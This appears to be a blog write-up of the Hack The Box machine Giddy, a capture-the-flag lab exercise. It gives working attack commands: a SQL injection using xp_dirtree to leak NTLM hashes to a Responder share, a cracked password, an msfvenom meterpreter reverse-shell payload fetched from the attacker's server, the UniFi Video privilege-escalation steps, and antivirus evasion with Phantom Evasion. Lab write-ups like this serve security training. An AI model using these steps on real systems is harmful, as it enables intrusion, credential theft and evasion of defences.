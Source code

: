 ```yaml
---
layout: post
title: Hack The Box - Giddy
categories: hack-the-box
tags: [Windows, Web, SQLI, RCE, Active Directory]
image: /hackthebox/giddy/0.png
---
```


<hr>
### Quick Summary
#### Hey guys today Giddy retired and this is my write-up. Giddy was a nice windows box , This box had a nice sqli vulnerability which we will use to steal ntlm hashes and login , Then the privilege escalation was a Local Privilege Escalation vulnerability in a software called Ubiquiti UniFi Video which also was a cool vulnerability , I had fun doing this box as it was a challenging one. It's a windows box and its ip is 10.10.10.104 , I added it to `/etc/hosts` as `giddy.htb`. Let's jump right in.
![](/images/hackthebox/giddy/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC giddy.htb`
![](/images/hackthebox/giddy/1.png)
#### nmap tells us that port 80 and 443 are open and running http , port 3389 is also open and it says "Microsoft Terminal Services", Let's check http
<br>
<hr>
### HTTP Enumeration
#### On http (port 80) there's only this picture :
![](/images/hackthebox/giddy/2.png)
#### Also the same picture on https (port 443)
![](/images/hackthebox/giddy/3.png)
#### Let's run gobuster with `directory-list-2.3-medium.txt` and see what we will get
`gobuster -u http://giddy.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -to 250s`
#### Results :
```
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)                                                                                       
=====================================================                                                                                       
[+] Mode         : dir                                                                                                                      
[+] Url/Domain   : http://giddy.htb/                                                                                                        
[+] Threads      : 100                                                                                                                      
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                             
[+] Status codes : 200,204,301,302,307,403                                                                                                  
[+] Timeout      : 4m10s                                                                                                                    
=====================================================                                                                                       
2019/02/15 21:36:09 Starting gobuster                                                                                                       
=====================================================
/remote (Status: 302)
/mvc (Status: 301)
```
#### We got 2 sub directories `/remote` and `/mvc`
#### Let's take a look at `/remote` :
![](/images/hackthebox/giddy/4.png)
#### It redirects us to this page titled as `Windows PowerShell Web Access` , we don't have any credentials so we can ignore this for now and check `/mvc`
![](/images/hackthebox/giddy/5.png)
#### And we get this `ASP.NET` application
<br>
<hr>
### SQLI and getting User
#### After some regular enumeration we will find that when we click on a product name we get something like this :
![](/images/hackthebox/giddy/6.png)
#### The url has a parameter called `ProductSubCategoryId` , and if we try a single quote `'` :
![](/images/hackthebox/giddy/7.png)
#### We get an error saying "Unclosed quotation mark after the character string" so this parameter is sql injectable , let's try something like `1; UPDATE Product SET Name= ''`
![](/images/hackthebox/giddy/8.png)
#### And we see that it dumped the products, we can run responder and use `xpdirtree` to make it try to connect to us , you can read about `xpdirtree` [here](http://www.patrickkeisler.com/2012/11/how-to-use-xpdirtree-to-list-all-files.html)
#### To do this let's run responder first `responder -I tun0`
#### Then let's use `xpdirtree` : `1; EXEC MASTER.sys.xp_dirtree '\\10.10.xx.xx\fakeshare'`
![](/images/hackthebox/giddy/9.png)
#### What is this doing is simply running a fake smb server with responder that steals ntlm hashes , then by using `xpdirtree` we make the server try to connect to our fake smb server. Let's check responder now :
![](/images/hackthebox/giddy/10.png)
#### We captured ntlm hash for a user called `Stacy` , Let's crack the hash with john
![](/images/hackthebox/giddy/11.png)
#### And the password is `xNnWo6272k7x` , let's use the PowerShell Web Access
![](/images/hackthebox/giddy/12.png)
#### We ge this web interface for powershell :
![](/images/hackthebox/giddy/13.png)
#### We can get the user flag now :
![](/images/hackthebox/giddy/14.png)
#### And we owned user !
<hr>
### unifivideo local privilege escalation
#### If we return to `Documents` again we will find a file called `unifivideo`
![](/images/hackthebox/giddy/15.png)
<br>
> UniFi Video is a powerful and flexible, integrated IP video management
surveillance system designed to work with Ubiquiti’s UniFi Video Camera product
line. UniFi Video has an intuitive, configurable, and feature‑packed user
interface with advanced features such as motion detection, auto‑discovery,
user-level security, storage management, reporting, and mobile device support.
<br>

#### A quick google search and we will find that an old version of unifivideo had a local privilege escalation vulnerability , check it [here](https://www.exploit-db.com/exploits/43390)
#### What's happening is , Upon the start of the service "Ubiquiti UniFi Video" it tries to execute a file called `taskkill.exe` in `C:\ProgramData\unifi-video\` but that file doesn't exist by default , if we have write permissions to that directory we can place our payload there as `taskkill.exe` then restart the service. And because the service runs with privileged permissions , it will be excuted as administrator.
#### Let's first create a payload with msfvenom :
`msfvenom -p windows/meterpreter_reverse_tcp LHOST=10.10.xx.xx LPORT=1337 -f exe > taskkill.exe`
![](/images/hackthebox/giddy/16.png)
#### We will set up the handler on metasploit :
`use multi/handler`
<br>
<br>
`set payload windows/meterpreter_reverse_tcp`
<br>
<br>
`set LHOST 10.10.xx.xx`
<br>
<br>
`set LPORT 1337`
#### Then we will run a simple http server with python to host the payload
`python -m SimpleHTTPServer 80`
#### After that we will download the file , since we are on powershell we can do this :
`Invoke-WebRequest -o taskkill.exe http://10.10.xx.xx/taskkill.exe`
#### Then we will stop the service :
`Stop-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/17.png)
#### Start it again :
`Start-Service "Ubiquiti UniFi Video"`
![](/images/hackthebox/giddy/18.png)
#### Let's check our listener
![](/images/hackthebox/giddy/19.png)
#### We didn't get a meterpreter session !
<br>
<hr>
### Evading anti-virus and getting root
#### We didn't get a meterpreter session because there's some kind of anti-virus blocking our payload , so what i'm going to do is to use a framework called `phantom evasion` , you can get it from [github](https://github.com/oddcod3/Phantom-Evasion)
![](/images/hackthebox/giddy/20.png)
#### We will use [1] windows modules , then [1] shellcode injection , [4] windows shellcode injection heapalloc , after that it will ask for the payload :
![](/images/hackthebox/giddy/21.png)
#### We will choose Msfvenom 
#### And for encoding we will choose [4] x86/xor_dynamic + Triple Multibyte-key xor:
![](/images/hackthebox/giddy/22.png)
#### It will ask for adding multi processes behaviour , stripping and signing the executable , we will say no to all of them , then finally we will have our payload.
#### We will repeat what we did with the other payload again , and let's check our listener : 
![](/images/hackthebox/giddy/23.png)
#### We got a meterpreter session and owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - Ypuffy](/hack-the-box/ypuffy/)
#### Next Hack The Box write-up : [Hack The Box - Zipper](/hack-the-box/zipper/)
<hr>
